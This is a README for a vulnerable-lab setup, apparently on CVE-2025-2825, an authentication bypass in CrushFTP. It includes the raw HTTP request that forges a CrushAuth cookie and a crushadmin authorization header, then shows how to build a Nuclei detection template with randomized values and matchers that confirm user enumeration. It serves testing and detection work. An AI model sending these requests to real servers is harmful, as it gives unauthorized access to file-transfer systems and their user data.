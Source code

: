 # CVE-2025-2825: CrushFTP Authentication Bypass

## Description:
CrushFTP versions 10.0.0 through 10.8.3 and 11.0.0 through 11.3.0 are affected by a vulnerability that may result in unauthenticated access. Remote and unauthenticated HTTP requests to CrushFTP may allow attackers to gain unauthorized access.


## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2025-2825
- https://projectdiscovery.io/blog/crushftp-authentication-bypass/
- https://www.crushftp.com/crush11wiki/Wiki.jsp?page=Update


## Vulnerable Setup:

- Execute the following commands to start a CrushFTP 11.3.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://localhost:8001/WebInterface/login.html to see the CrushFTP WebInterface Login Panel

## Exploitation Steps:

The authentication bypass can be triggered by sending specially crafted requests with manipulated authentication tokens.


**HTTP Request**


```
GET /WebInterface/function/?command=getUserInfo&c2f=9606 HTTP/1.1
Host: locahost:8081
User-Agent: Mozilla/5.0 (ZZ; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Cookie: CrushAuth=1049161285377_jZiGxXHpBrrLsAEJmBfAaiFsImLZ9606; currentAuth=9606
Origin: http://localhost:8081
Referer: http://localhost:8081/WebInterface/login.html
X-Requested-With: XMLHttpRequest


```

![image](https://github.com/user-attachments/assets/4aed5bed-2227-4998-831b-307ad8a5e4b8)

# Steps to Write Nuclei Template


**Define Variables**

- To randomize requests and avoid detection, define variables:

```
variables:
  string_1: "{{rand_text_numeric(13)}}"
  string_2: "{{rand_text_alpha(28)}}"
  string_3: "{{rand_text_numeric(4)}}"
```

**Create HTTP Requests**

- The authentication bypass occurs by manipulating CrushAuth cookies and sending unauthorized requests. Craft raw HTTP requests:

```
http:
  - raw:
      - |
        GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f={{string_3}} HTTP/1.1
        Host: {{Hostname}}
        Cookie: CrushAuth={{string_1}}_{{string_2}}{{string_3}}; currentAuth={{string_3}}
        Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
        Origin: {{RootURL}}
        Referer: {{RootURL}}/WebInterface/login.html
        X-Requested-With: XMLHttpRequest
        Accept-Encoding: gzip


```

**Matchers Definition**

- To confirm successful exploitation, the response must meet the following conditions:

  - Status Code : The server should return HTTP 200 (OK), indicating a successful request.

  - Response Body : The response should contain the username "crushadmin" inside the <user_list_subitem> tag, confirming user enumeration.

  - Content-Type : The response should be in XML format (text/xml).

```
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "<user_list_subitem>crushadmin</user_list_subitem>"

      - type: word
        part: content_type
        words:
          - "text/xml"

      - type: status
        status:
          - 200
```

## Nuclei Template URL : [CVE-2025-2825](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-2825.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-2825.yaml -u http://localhost:8001 -vv
```

![image](https://github.com/user-attachments/assets/6aa6ccaf-cf9d-4d2e-b058-04559a0edd04)
